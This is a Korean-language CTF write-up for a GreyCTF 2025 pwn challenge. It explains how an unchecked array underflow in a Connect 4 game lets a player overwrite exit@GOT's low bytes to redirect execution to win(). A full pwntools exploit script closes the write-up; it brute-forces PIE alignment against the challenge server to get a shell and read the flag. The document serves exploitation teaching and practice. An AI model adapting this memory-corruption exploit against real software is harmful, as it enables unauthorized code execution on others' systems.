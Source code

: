 ```yaml
---
tags: [ctf, write-up, pwn, system]		
---
```

![image.png](/assets/img/greyctf2025/image1.png)

---

해당 프로그램은 사용자의 입력을 받아 Connect 4 보드 게임을 시뮬레이션하는 콘솔 기반 프로그램이다. 플레이어는 8칸짜리 열(column)에 돌을 떨어뜨릴 수 있으며, 각 열은 최대 8개의 돌을 담을 수 있다. 이 제한을 초과하면 가장 아래의 돌이 제거되고 위의 돌들이 한 칸씩 아래로 내려오며 새로운 돌이 맨 위에 삽입된다.

게임 보드는 총 8행 8열(64바이트)의 크기를 가지며, 내부적으로 char board[8][8] 구조로 구현되어 있다. 하지만 열(column)에 8개 이상 돌을 삽입할 경우, 보드의 가장 아래에 있는 원소가 제거되면서 위의 값들이 내려오고, 새로운 값이 배열의 위(더 낮은 주소)인 board[-1][col]에 쓰이게 된다.

이를 코드를 통해 확인 해보면,

프로그램 내부에는 다음과 같은 전역 배열이 선언되어 있다.

```c
char board[8][8];
```

이는 총 64바이트(8행 × 8열) 크기의 2차원 배열로, 실제 메모리 상에는 연속된 메모리 공간으로 할당된다.

 

게임 중 사용자가 특정 열(column)에 8개 이상의 돌을 삽입하려고 하면, game() 함수 내부의 다음 코드가 실행된다

```c
int lastfree = 0;
while (board[lastfree][colint] == player1symbol || board[lastfree][colint] == player2symbol) {
    lastfree--;
}
```

위 코드에서 lastfree-- 연산이 경계 검사를 수행하지 않은 채 음수로 진행되므로, C언어의 특성상 board[-1][colint], board[-2][colint] 와 같은 배열 범위 밖의 메모리에 쓰기(write)가 발생하게 된다. 이는 스택 또는 전역 영역의 언더플로우에 해당하며, 인접한 전역 변수를 덮는 데 사용될 수 있다.

이 언더플로우 취약점을 이용해 보드 배열보다 위쪽 메모리에 위치한 중요한 구조체, 특히 GOT(Global Offset Table) 항목을 덮는 것이 가능하다. 

![image.png](/assets/img/greyctf2025/image2.png)

```
[exit@GOT]
    ↑       ← board[-8][col]
    │
[ board[0][0] ]
    ↓
[ board[7][7] ]
```

위의 이미지와 그림을 참고하면, exit@GOT 주소가 board[0][0]보다 64바이트 위쪽에 위치해 있는 것을 확인할 수 있다. 즉, 같은 열에 16개 이상의 돌을 삽입하면 board[-8][0] 위치에 접근할 수 있으며, 이는 exit@GOT 주소를 덮는 것과 동일하다.

이 프로그램은 종료 시 exit() 함수를 호출한다. 따라서 exit@GOT의 값을 조작하려 win()로 리디렉션하면 쉘 획득이 가능하다.

![image.png](/assets/img/greyctf2025/image3.png)
PIE(Position Independent Executable)가 적용되어있기 때문에 해당 바이너리의 모든 섹션(.text, .got, .bss 등)은 실행 시 무작위 PIE base에 따라 재배치된다. 따라서 win() 함수의 절대 주소도 실행할 때마다 바뀌지만, .text 섹션 내 오프셋은 고정되어 있어 하위 12비트(즉, 하위 2바이트)는 변하지 않는다.

```bash
pwndbg> p win
$1 = 0x555555555fc9 <win>
```

win() 함수는 .text 기준 고정 오프셋인 0x5fc9에 존재한다.

exit@GOT는 프로그램 실행 초기에는 아직 실제 libc의 exit() 주소가 기록되지 않은 상태이다.

exit()이 호출되면, PLT의 stub가 동작하여 GOT를 참조하지만, 우리가 그 이전에 GOT 항목의 하위 2바이트만 win()의 offset으로 덮으면, 해당 위치로 프로그램 흐름이 리디렉션된다.

이 stub 주소도 .text 섹션 내부에 존재하므로, 마찬가지로 PIE base가 동일하게 적용된다.

결과적으로 exit@GOT에 저장된 초기값과 win() 함수는 모두 동일한 PIE base를 공유하고 있으므로,

상위 6바이트가 동일하게 되고, 하위 2바이트만 덮으면 정확히 win() 주소로 리디렉션할 수 있다.

여기서 중요한 것은 알아낸 win의 주소는 PIE base가 0x555555554000일 때의 기준, 오프셋 1fc9가 적용된 값이다.

ASLR이 적용된 경우 PIE base는 0x5555555554xxx 까지가 변경되므로, 리모트 환경에서 win()함수의 하위 2바이트는 5fc9가 아닐수도 있다.

ex)

```bash
PIE base = 0x5555555557000 // 끝에 000은 고정
win() = 0x5555555558fc9 // 하위 2바이트가 8fc9
```

따라서 ASLR이 적용된 PIE base의 하위 2바이트가 4000으로 끝날 때까지 익스코드를 반복 실행하여야 한다. 

### 익스 흐름

1. 초기 심볼로 b'\xc9'와 b'\x5f'을 설정하여, 언더플로우 시 리틀 엔디안 순서로 0x5fc9가 exit@GOT에 기록되도록 한다.
2. send_positions() 함수를 통해 특정 열(ex: 0번, 1번)에 번갈아가며 총 16개의 돌을 삽입하면,
   board[-8][col]까지 접근 가능해져 exit@GOT의 값을 덮을 수 있다. 
3. 이후 프로그램이 exit()을 호출할 때(0~7을 제외한 값을 보내면 호출됨), GOT를 통해 참조되는 주소가 우리가 덮은 0x5fc9이므로, 실제로는 win() 함수가 호출되어 쉘을 획득하게 된다.
4. 쉘 획득에 실패할 경우 반복한다.

### exploit.py

```c
from pwn import process, remote
import sys

def send_positions(p, one, two):
    print(f"Sending positions: {one} and {two}")
    p.recvuntil(b"> ")
    p.sendline(one)
    p.recvuntil(b"> ")
    p.sendline(two)

def got_shell(p):
    p.recvuntil(b"> ")
    p.sendline(b"a")
    p.sendline(b"echo success")

    try:
        p.recvuntil(b"success", timeout=20)
        return True
    except EOFError:
        return False

ctr = 0

while True:
    ctr += 1

    try:
        p = remote("challs.nusgreyhats.org", port=33102, timeout=15)
        
        send_positions(p, b"\xc9", b"\x5f")
        for i in range(16):
            if i % 2 == 0:
                send_positions(p, b"0", b"1")
            else:
                send_positions(p, b"1", b"0")

        p.sendline(b"")

        if got_shell(p):
            print(f"[+] success (try {ctr})")
            p.sendline(b"cat flag.txt")
            print(p.recvuntil(b"}").decode().strip())
            sys.exit()
        else:
            print(f"[-] failed (try {ctr})")
            p.close()

    except (BrokenPipeError, EOFError) as e:
        print(f"[!] Connection error on try {ctr}: {e}")
        try:
            p.close()
        except:
            pass
        continue

```

![image.png](/assets/img/greyctf2025/image4.png)